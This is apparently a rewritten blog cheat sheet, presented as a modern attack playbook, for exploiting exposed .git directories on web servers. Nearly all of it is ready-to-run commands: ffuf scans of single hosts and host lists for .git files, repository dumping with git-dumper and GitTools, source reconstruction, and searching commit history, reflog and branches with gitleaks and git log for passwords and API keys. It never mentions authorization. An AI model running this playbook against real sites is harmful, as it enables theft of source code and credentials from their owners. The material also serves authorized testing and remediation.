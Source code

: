 
##
#
https://medium.com/swlh/hacking-git-directories-e0e60fa79a36
#
##



### **Overhaul: Hacking Exposed `.git` Directories in '25 and Beyond**

The core principle remains the same: an exposed `.git` directory is a critical information leak. It's not just source code; it's the project's entire history, including secrets committed by mistake, deleted code, feature branches, and developer comments. Here’s the modern playbook.

#### **Phase 1: Advanced Detection**

Manually checking for `/.git/` is a start, but modern approaches are automated and more thorough. A 403 Forbidden on `/.git/` doesn't mean you're blocked; it just means directory listing is disabled. The real test is checking for specific, predictable files.

**Modern Tools for Detection:**

Use fuzzing tools with a targeted wordlist to quickly identify exposed `.git` files across many hosts.

*   **Tool:** `ffuf`, `dirsearch`, `gobuster`
*   **Wordlist:** A small, targeted list is best. Create a file `git-files.txt`:
    ```
    .git/HEAD
    .git/config
    .git/index
    .git/logs/HEAD
    ```
*   **`ffuf` One-Liner:**
    ```bash
    # Scan a single target for key git files
    ffuf -u http://project.com/FUZZ -w git-files.txt -mc 200

    # Scan a list of hosts
    ffuf -u http://FUZZ/ -w hosts.txt -w git-files.txt -mc 200 -e ".git/HEAD,.git/config"
    ```
    A `200 OK` response on any of these files is a strong indicator that the directory is exposed and its contents are readable, even if the root `/.git/` directory returns a 403.

#### **Phase 2: Automated Exfiltration & Reconstruction**

Manually `curl`'ing each object is slow and painful. Modern hacking is about automation. Several tools are purpose-built to recursively download and reconstruct a `.git` repository when directory listing is disabled.

**Primary Tool: `git-dumper`**

This is the go-to tool. It starts with known files (`HEAD`, `config`, `refs/heads/master`, etc.), parses them for object hashes, and then systematically downloads every tree, commit, and blob object it can find.

*   **Installation:**
    ```bash
    pip3 install git-dumper
    ```
*   **Usage (One-Liner):**
    ```bash
    # Dumps the .git directory from the target into a local folder named 'project.com'
    git-dumper http://project.com/.git/ ./project.com
    ```

**Alternative Powerhouse: `GitTools`**

`GitTools` is a suite of three scripts that are incredibly powerful.

*   **Installation:**
    ```bash
    git clone https://github.com/internetwache/GitTools.git
    cd GitTools/
    ```
*   **Usage:**
    1.  **`Finder/gitfinder.py`**: Scans a domain for exposed `.git` repositories.
    2.  **`Dumper/gitdumper.sh`**: A shell script alternative to `git-dumper`.
        ```bash
        ./Dumper/gitdumper.sh http://project.com/.git/ ./project_com_dump
        ```
    3.  **`Extractor/extractor.sh`**: After dumping, this script goes through the commit history to find deleted files and interesting content. This is a key "advanced tweak."
        ```bash
        ./Extractor/extractor.sh ../project_com_dump ../project_com_extracted
        ```

**After Dumping the Files:**

Once you have the files, navigate into the output directory and restore the source code.

```bash
cd ./project.com/
# This command restores the files from the downloaded .git index to your working directory
git checkout .
```
You should now see the full source code of the latest commit.

#### **Phase 3: Advanced Post-Exploitation & History Diving**

Getting the current source code is just the beginning. The real secrets are often buried in the project's history.

**Tweak 1: Secret Scanning with `gitleaks`**

Don't manually `grep` for secrets. Use a dedicated tool that understands entropy and common secret patterns. `gitleaks` is the industry standard.

*   **Installation:** (Varies by OS, see their GitHub page)
*   **Usage (One-Liner):**
    ```bash
    # Run gitleaks against your reconstructed repository
    gitleaks detect --source . -v
    ```
    This will scan the *entire commit history* for things like API keys, private keys, passwords, and other credentials.

**Tweak 2: The Art of `git log`**

The commit history is a treasure map.

*   **Find Secrets in Code Changes:** Look at the actual code changes (`-p` flag) for every commit. Developers often commit a secret, then remove it in a later commit. The secret remains in the history forever.
    ```bash
    # Show all commits with their code changes, searching for the word "password"
    git log -p --all --full-history | grep -C 5 "password"
    ```

*   **Find Interesting Files:** See which files have been changed the most or recently.
    ```bash
    # Show a summary of which files were changed in each commit
    git log --stat
    ```

**Tweak 3: The `reflog` - Finding Lost Commits**

This is a truly advanced technique. The `reflog` tracks every movement of `HEAD`, including checkouts, resets, and even commits on branches that were later deleted. If a developer force-pushed to hide a sensitive commit, it might still be in the `reflog`.

```bash
# Display the reference log
git reflog

# If you find an interesting "lost" commit hash (e.g., a2b4c6d), you can inspect it
git show a2b4c6d
```

**Tweak 4: Explore All Branches**

Don't just look at the `main` or `master` branch. Development branches often contain unfinished code, debug endpoints, and more secrets.

```bash
# List all local and remote branches
git branch -a

# Switch to a development branch to explore its code
git checkout develop
```

#### **Modernized `.git` Hacking Cheat Sheet**

| Phase         | Action                               | Command                                                              |
| :------------ | :----------------------------------- | :------------------------------------------------------------------- |
| **Detection** | Find key `.git` files                | `ffuf -u http://target.com/FUZZ -w git-files.txt -mc 200`             |
| **Dumping**   | Automatically dump the repo          | `git-dumper http://target.com/.git/ ./output_dir`                    |
| **Reconstruct** | Restore source from dumped files     | `cd ./output_dir && git checkout .`                                  |
| **Analysis**  | **Scan entire history for secrets**  | `gitleaks detect --source . -v`                                      |
|               | Find secrets in code changes         | `git log -p --all | grep -i "apikey"`                                |
|               | **Find lost/deleted commits**        | `git reflog`                                                         |
|               | Explore all branches                 | `git branch -a` and `git checkout <branch_name>`                     |
|               | Check out an old, sensitive commit   | `git checkout <commit_hash>`                                         |

